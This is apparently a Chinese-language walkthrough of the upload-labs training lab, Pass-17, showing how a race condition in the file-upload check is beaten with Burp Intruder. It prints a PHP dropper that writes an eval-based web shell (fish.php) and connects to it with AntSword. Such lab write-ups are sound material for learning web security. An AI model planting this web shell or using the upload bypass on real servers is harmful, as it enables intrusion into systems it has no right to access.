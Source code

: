 ![PixPin_2025-05-14_22-40-40](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-14_22-40-40.67xoo7omw0.webp)

> [!WARNING]
> jpg 图片二次渲染绕过不易成功，需要多换几张图片尝试。

## Pass-17

利用 **条件竞争绕过**

上传 `shell.php`（用于生成 `fish.php`）

```php {filename="shell.php"}
<?php fputs(fopen("fish.php","w"), "<?php @eval(\$_POST['fish']);?>");?>
```

![PixPin_2025-05-15_20-31-42](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-31-42.pfk9dfmmv.webp)

访问 `shell.php`

![PixPin_2025-05-15_20-36-21](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-36-21.3k88f5vfz0.webp)

将 `/upload-labs-0.1/Pass-17/index.php` 和 `/upload-labs-0.1/upload/shell.php` 两条记录发送到 `Intruder` 模块

![PixPin_2025-05-15_20-36-50](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-36-50.2veyv58jqp.webp)

设置两条记录 `Payload 类型` 为 `Null payloads`，无限重复

![PixPin_2025-05-15_20-44-10](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-44-10.1vyvhzfbp9.webp)

设置两条记录 `最大并发请求数` 为 `25`

![PixPin_2025-05-15_20-45-20](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-45-20.2obqzpxb0n.webp)

![PixPin_2025-05-15_20-46-41](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-46-41.67xopj1rkz.webp)

开始攻击

![PixPin_2025-05-15_20-45-54](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-45-54.9kgejwhbhv.webp)

![PixPin_2025-05-15_20-46-57](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-46-57.8ojx4g8zux.webp)

观察到 `/upload-labs-0.1/upload/shell.php` 攻击时出现 `200` 状态码时停止攻击

![PixPin_2025-05-15_20-48-33](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-48-33.73u64zdv2a.webp)

使用蚁剑连接 `fish.php`

![PixPin_2025-05-15_20-49-17](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-49-17.3yeo61kdzi.webp)

## Pass-18

> [!WARNING]
> 这里的路径拼接有问题，上传一个 `jpg` 图片应该是 `upload/1747315674.jpg`，但实际拼出来的是 `upload1747315674.jpg`，修改 `Pass-18/myupload.php` 的 `$this->cls_upload_dir = $dir;` 为 `$this->cls_upload_dir = $dir.'/';`
